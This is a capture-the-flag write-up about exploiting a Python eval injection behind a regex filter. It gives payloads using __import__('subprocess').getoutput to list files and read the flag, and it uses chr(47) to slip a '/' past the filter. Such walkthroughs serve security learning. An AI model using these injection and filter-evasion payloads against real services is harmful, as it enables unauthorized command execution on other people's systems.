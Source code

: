 pretty fun challenge. so the input is passed through regex and then put into `eval`. Using this knowledge you can find ways to execute code on the system.

To start several certain characters will not work. So you will get failed attempts. I first started with finding a way to get the server to sleep.

inputting:

```

__import__('time').sleep(5)
```

got me to sleep the server. Great!

okay lets try to execute stuff on the command line, lets try:

```
__import__('os').system('echo hello')
```

shit it is blocked, hmm lets try this:


```
__import__('subprocess').getoutput('echo hello')
```

success! the server said hello

kk lets now try

```
__import__('subprocess').getoutput('ls')

```

FML it `ls` is blocked. Okay lets do this then:

```
__import__('subprocess').getoutput('echo *')
```

we can now see files! so the hint reveals we have to go to the root
may let do 

```
__import__('subprocess').getoutput('cd / && head flag*')
```

no luck, maybe I can find a way to input characters using a trick?

```
__import__('subprocess').getoutput("cd " + chr(47) + "&& head flag*")
```

DONE! 